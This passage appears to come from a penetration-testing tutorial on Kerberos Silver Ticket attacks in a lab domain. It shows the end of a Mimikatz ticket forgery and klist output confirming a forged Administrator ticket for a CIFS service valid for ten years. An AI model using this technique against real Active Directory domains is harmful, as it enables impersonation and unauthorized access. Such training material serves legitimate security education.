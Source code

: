 	Final Ticket Saved to file !
	
	
![Silver Ticket Mimikatz](/Ticket-Abuse/Silver-Ticket/images/Silver-Ticket-Mimikatz.png) 



As we can see on the last line, the Silver Ticket has been created and submitted for the current session. Mimikatz calls it a Golden Ticket, but it's a TGS ticket that was generated, so it is a Silver Ticket. We can double-check this using the **klist** utility. 


## Reviewing the Tickets with klist



	PS C:\> klist
	 
	Current LogonId is 0:0x75d28

	Cached Tickets: (1)

	0>     Client: Administrator @ inlanefreight.local
		   Server: cifs/sql01.inlanefreight.local @ inlanefreight.local
		   KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
		   Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
		   Start Time: 1/15/2024 8:51:15 (local)
		   End Time:   1/12/2034 8:51:15 (local)
		   Renew Time: 1/12/2034 8:51:15 (local)
		   Session Key Type: RSADSI RC4-HMAC(NT)
		   Cache Flags: 0
		   Kdc Called:
